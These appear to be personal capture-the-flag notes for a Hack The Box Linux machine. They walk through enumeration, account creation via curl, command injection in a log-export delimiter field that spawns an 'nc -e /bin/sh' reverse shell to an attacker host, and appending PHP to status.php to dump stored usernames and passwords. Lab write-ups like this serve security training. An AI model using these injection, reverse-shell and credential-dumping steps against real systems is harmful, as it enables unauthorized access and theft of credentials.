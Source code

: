 ### Box Info
OS: Linux\
IP: 10.10.11.104

## Part I 

### Skills learned:
Curl/Python
CMD injection

### Enumeration
nmap -p- -A -oN Exploreprts.txt ${IP}
+ 22 OpenSSH
+ 80 Apache httpd 2.4.29 


### Dirb ${IP}/ -X .php
+ /accounts.php
    + Ability to create UN && PW            
+ /login.php
+ /status.php

### Step 1: User Account
+ Create account with curl request
  + curl -is -X POST -d "username=${UN}&password=${PW}&confirm=${PW}" ${IP}/accounts.php 
+ Login with new account:
  + Upload access, "MySQL server is online and connected", 3(2) registered admins, *sitebackup.zip*, User: m4lwhere
  + Management Menu -> Request Log Data: file delimeter

### Step 2: CMD Injection
+ inspect file delimeter
  + change comma to inlcude a nc shell
    + comma && nc -e /bin/sh ${AttackerIP} ${port#}
  + setup a listner shell : nc -lnp ${port#}

### Step 3: Shell
+ python -V
+ check https://github.com/crcirq32/Bash/blob/main/reverseshells.sh to upgrade shell
+ m4lwhere seems to house all permissions
  + Must access users from db to get more info on m4lwhere
    + printf '<?php\n$db = connectDB();\n$query = "SELECT username, password FROM accounts";\n$users = $db->query($query);\nif ($users->num_rows > 0) {\nwhile($row = mysqli_fetch_assoc($users)) {\nvar_dump($row);\n}\n}\n$db->close();' >> status.php
    + ${IP}/status.php should now connect to DB and expose users

TODO: 10.10.11.104 Hung up - Stuck in limbo. Contact HTB
